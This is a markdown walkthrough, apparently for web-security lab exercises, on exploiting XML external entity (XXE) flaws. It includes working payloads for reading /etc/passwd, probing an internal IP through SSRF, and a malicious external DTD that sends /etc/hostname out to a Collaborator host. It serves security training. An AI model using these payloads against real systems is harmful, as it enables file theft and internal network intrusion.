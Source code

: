 ## TYPES OF XXE ATTACKS
### Exploiting XXE to retrieve files
Suppose an application has a "check stock feature that parses XML input and returns the values in the response".

Visit a product page, click "check stock" and send the request to Burp Repeater.

Insert the external entity definition in between the XML declaration and the original element.
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```
Replace the productId parameter value in the original element with a reference to the external entity "&xxe;" and send the request. 

The response should contain "invalid product ID" followed by the response of the contents from the /etc/passwd file.

### Exploiting XXE to perform SSRF attacks
Visit a product page, click "check stock" and send the request to Burp Repeater. 

Insert the external entity definition in between the XML declaration and the original element
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.0.2" >]>
```
Replace the productId parameter value in the original element with a reference to the external entity "&xxe;" and send the request

The response should contain "invalid product ID" followed by the response from the URL endpoint, which will initially be a folder name

Iteratively update the URL with the folder name to explore the URL

### Exploiting blind XXE exfiltrate data out-of-band
Open Burp-Collaborator Client and copy the payload to the clipboard

Visit a product page, click "check stock" and send the request to Burp Repeater

Insert the external entity definition in between the XML declarations and the original element then paste the copied payload from Burp-Collaborator in the URL
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "burp-collaborator.domain" >]>
```
Replace the productId parameter value in the original element with a reference to the external entity "&xxe;" and send the request

In Burp-Collaborator, click "poll now" and observe there are multiple DNS and HTTP interations from the application

### Exploiting blind XXE to exfiltrate data out-of-band using a malicious external DTD
Open Burp-Collaborator Client and copy the payload to the clipboard and place the Burp Collaborator payload into a malicious DTD file
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://BURP-COLLABORATOR-DOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Go to exploit server and save the malicious DTD file on the server and take note of the URL
